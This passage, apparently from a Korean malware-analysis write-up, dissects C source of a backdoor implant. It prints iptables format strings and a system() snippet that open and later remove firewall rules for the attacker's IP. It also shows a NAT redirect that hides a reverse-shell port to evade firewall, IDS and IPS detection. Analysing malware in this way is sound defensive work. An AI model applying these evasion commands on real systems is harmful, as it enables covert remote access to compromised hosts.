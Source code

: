         - 공격자의 IP 주소(`%s`)에서 들어오는 TCP 패킷 허용 규칙을 INPUT 체인 삽입한다.
    - `dinputfmt` - `dcmd`

        ```
        /sbin/iptables -D INPUT -p tcp -s %s -j ACCEPT
        ```

        - 공격자의 IP 주소(`%s` - `ip` 변수)에서 들어오는 TCP 패킷 허용 규칙을 INPUT 체인 삭제한다.
        - 연결 종료 후, 앞에서 추가한 INPUT 규칙을 제거하기 위한 규칙이다.
    - `system()`을 호출하여 iptables를 이용하여 공격자의 IP 주소로 들어오는 TCP 패킷을 허용하는 방화벽 규칙을 구성하고, `dcmd` 변수에 허용했던 규칙을 삭제하는 명령 문자열을 저장하여, 이후 `shell` 함수 내에서 수행하도록 인자를 전달한다.

    ```c
    memset(cmd, 0, sizeof(cmd));
    snprintf(cmd, sizeof(cmd), cmdfmt, ip, fromport, toport);
    snprintf(rcmd, sizeof(rcmd), rcmdfmt, ip, fromport, toport);
    system(cmd);
    sleep(1);
    ```

    - 512 크기의 char 배열 `cmd`와 `rcmd`에 `cmdfmt`, `rcmdfmt`를 저장하고, 포맷스트링 변수에 `ip`, `fromport`, `toport` 전달한다.
    - `cmdfmt` - `cmd`

        ```
        /sbin/iptables -t nat -A PREROUTING -p tcp -s %s --dport %d -j REDIRECT --to-ports %d
        ```

        - 공격자가 연결 요청하는 포트(첫 번째 `%d` - `fromport` 변수)를 로컬에서 임의로 선택한 포트(두 번째 `%d` - `toport` 변수)로 리다이렉트 한다.
    - `rcmdfmt` - `rcmd`

        ```
        /sbin/iptables -t nat -D PREROUTING -p tcp -s %s --dport %d -j REDIRECT --to-ports %d
        ```

        - 앞에서 설정한 리다이렉션 NAT 규칙을 제거하기 위한 명령이다.
    - `system()`을  호출하여 iptables를 이용하여 공격자가 연결을 요청한 포트를 앞에서 수행한 `b` 함수에서 임의로 선택하고 연결한 포트로 내부에서 리다이렉션 하도록 설정한다. 이런 방식은 **reverse shell 포트가 외부에 직접 노출되지 않아 방화벽/IDS/IPS 탐지를 우회할 수 있게 된다.**

    <br>

    > **iptables**
    >
    > 리눅스 시스템에서 방화벽을 설정하는 도구로서, 네트워크 패킷을 필터링하거나 변경하는 등의 기능을 수행한다. 특정 조건을 가지고 있는 패킷에 대해 허용(ACCEPT)와 차단(DROP) 등을 지정할 수 있으며, 특정 조건 등을 통해 다양한 방식의 패킷 필터링과 처리 방식을 지원한다.
    {: .prompt-warning }

5. **클라이언트 소켓 생성**

    ```c
    sock = w(sockfd);
    if( sock < 0 ){
        close(sock);
        return;
    }
    ```
